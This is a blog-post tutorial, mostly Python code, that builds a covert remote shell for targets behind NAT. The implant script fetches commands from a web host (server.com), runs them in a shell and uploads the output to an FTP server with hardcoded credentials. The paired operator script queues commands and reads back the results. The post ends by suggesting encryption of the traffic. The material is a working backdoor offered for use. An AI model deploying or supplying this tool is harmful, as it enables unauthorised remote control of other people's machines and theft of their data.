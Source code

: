 ```yaml
---
layout: post
title: "Useful Python Scripts: HTTP&FTP Shell"
date: 2016-04-25 18:00:00 +0200
categories: scripting
tags:
  - scripting
  - shell
  - python
author: Joe Schmoe
---
```


Some people have problems with being unable to port forward, so they can't use reverse shells. Most of the time you can't use a bind shell either, if your target is behind NAT. What do!?  
  
What you can do is use a web server to transfer commands and outputs. Let's do just that!  

**The Server**

We will need to use a few libraries:
{ % highlight python linenos % }
import urllib2, ftplib, subprocess, StringIO, time, os
{ % endhighlight % }
- urllib2: For downloading commands.
- ftplib: For uploading output.
- subprocess: For executing commands.
- StringIO: For turning strings into file objects. Why this is needed will be explained later.
- time: For sleeping.
  
Now that we have everything we need let's begin.  
  
{ % highlight python linenos % }
import urllib2, ftplib, subprocess, StringIO, time
while True:
	try:
		command = urllib2.urlopen("http://server.com/input.txt").read()
	except Exception as e:
		print(str(e))
		time.sleep(20)
		
{ % endhighlight % }

Seems pretty simple. We try downloading the input file, containing a command to execute. If there's an exception (No internet connection, input.txt doesn't exist, internet is on fire, etc.), we display it and wait 20 seconds before trying again. Now let's do something with the received command.

{ % highlight python linenos % }
output = StringIO.StringIO(subprocess.check_output(command, shell=True))
{ % endhighlight % }

We'll use subprocess the execute the command and get the output. Then, we will use StringIO to turn the command into a file object. Now let's upload the output to the FTP server.

{ % highlight python linenos % }
ftp = ftplib.FTP("server.com")
ftp.login("username","password")
ftp.storbinary("STOR output.txt",output)
ftp.delete("input.txt")
ftp.quit()
ftp.close()
{ % endhighlight % }

We create an FTP object and login to a server of our choosing. Then, we use the STOR command to store our output as output.txt. ftplib requires the second argument to be a file object, and that's why we needed to use StringIO earlier. After that, we delete the input file since it's no longer needed, and close our connection. The server is done!

{ % highlight python linenos % }
import urllib2, ftplib, subprocess, StringIO, time, os
while True:
	try:
		command = urllib2.urlopen("http://server.com/input.txt").read()
		output = StringIO.StringIO(subprocess.check_output(command, shell=True))
		ftp = ftplib.FTP("server.com")
		ftp.login("username","password")
		ftp.storbinary("STOR output.txt",output)
		ftp.delete("input.txt")
		ftp.quit()
		ftp.close()
	except Exception as e:
		print str(e)
		time.sleep(20)
{ % endhighlight % }

**The Client**

The client is very analogous to the server, so I don't think there's much to explain.

{ % highlight python linenos % }
import urllib2, ftplib, time
while True:
	try:
		command = StringIO.StringIO(raw_input())
		
		ftp = ftplib.FTP("server.com")
		ftp.login("username","password")
		ftp.storbinary("STOR input.txt",command)
		try: ftp.delete("output.txt")
		except: pass
		ftp.quit()
		ftp.close()
		while True:
			try:
				output = urllib2.urlopen("http://server.com/output.txt").read()
				break
			except:
				time.sleep(5)
				continue
			
		print output
	except Exception as e:
		print str(e)
{ % endhighlight % }

We get the command and turn it into a file object, upload it, and delete the previous output (The try/except is there because if output.txt doesn't exist ftplib raises an exception). Then we try reading the output every 5 seconds, and print it when we succeed.


Some suggestions for improving the script:
- Make it use HTTP/FTP only.
- Encrypt data before sending it.
- You need to append "cd <directory>" before every command, because subprocess always uses the current directory. Perhaps you can make the script change the current working directory?
- Show current directory and a prompt.


Hope you enjoyed this article!  
Joe Schmoe